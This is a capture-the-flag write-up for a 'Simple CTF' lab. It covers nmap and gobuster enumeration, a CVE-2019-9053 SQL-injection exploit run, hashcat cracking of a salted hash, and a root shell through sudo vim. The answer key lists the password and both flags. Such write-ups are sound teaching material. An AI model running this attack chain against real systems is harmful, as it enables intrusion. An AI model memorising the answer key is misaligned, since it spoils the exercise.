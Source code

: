 # Simple CTF

> Lorenzo De Simone | 19.05.2023

----------------------------------------

## Hosts

```bash
export IP=10.10.93.22
``` 

## Enumeration

### nmap

```bash
sudo nmap -sC -sV -oN nmap/initial 10.10.93.22
sudo nmap -p- -oN nmap/full 10.10.93.22
sudo nmap -p 1000 10.10.93.22 
``` 

Port 21 is open = ftp server,  anonymous login enabled 
Port 80 is open = http webserver
Port 2222 is open = ssh 

### Directory Busting

```bash
gobuster dir -u http://10.10.93.22/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

``` 
Directory /simple appears to be a CMS, vulnerable to SQLi

## Exploitation

```bash
python 46635.py -u http://10.10.93.22/simple --crack 10k-most-common.txt
``` 

Cracking with the exploit failed, but we got the hash and the salt for the mitch's password.

```
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
``` 

```bash
hashcat -m 20 -a 0 crack.txt 10k-most-common.txt
```

```bash
$ sudo -l      
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```  

```bash
$ sudo vim
:shell
```  

## Flags 

1. How many services are running under port 1000?
> 2

2. What is running on the higher port?
> ssh

3. What's the CVE you're using against the application?
> CVE-2019-9053

3. To what kind of vulnerability is the application vulnerable?
> SQLi

4. What's the password?
> secret

5. Where can you login with the details obtained
> ssh

6. What's the user flag?
> G00d j0b, keep up!

7. Is there any other user in the home directory? What's its name?
> sunbath

8. What can you leverage to spawn a privileged shell?
> vim

9. What's the root flag?
> W3ll d0n3. You made it!